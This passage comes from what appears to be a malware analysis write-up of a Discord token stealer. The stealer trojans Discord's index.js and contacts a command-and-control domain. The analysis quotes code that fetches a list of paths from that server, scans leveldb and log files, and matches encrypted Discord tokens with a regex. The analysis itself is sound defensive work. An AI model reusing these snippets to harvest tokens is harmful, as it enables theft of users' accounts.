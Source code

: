 A couple directories down is `index.js`:

![image-20240417132239112](../img/image-20240417132239112.png)

The non-trojaned `index.js` is a single line to load the ASAR file:

    
    
    module.exports = require('./core.asar');
    

I wasn’t able to get a copy of the one that the malware C2 deploys, as
`illitmagnetic.site` is down as of the time of my analysis.

#### Collect Tokens From App

The second block called in the main function calls `getDiscordTokens`. It
starts by making a request to the C2 for a list of paths:

    
    
        const request = await fetch(options.api + 'paths', {
            method: 'GET',
            headers: {
                'Content-Type': 'application/json',
                'duvet_user': options.user_id
            }
        });
    

Then it loops over these paths, looking for `.ldb` (leveldb) and `.log` files:

    
    
            if(existsSync(path) && existsSync(join(path, '..', '..', 'Local State'))) {
                for(const file of readdirSync(path)) {
                    if(file?.endsWith('.ldb')  || file?.endsWith('.log')) {
                        if(!existsSync(join(path, file))) return;
    

It uses regex to looks for tokens:

    
    
                        file_content?.forEach((line) => {
                            const encrypted_tokens = line?.match(/dQw4w9WgXcQ:[^.*['(.*)'\].*$][^']*/gi);
    
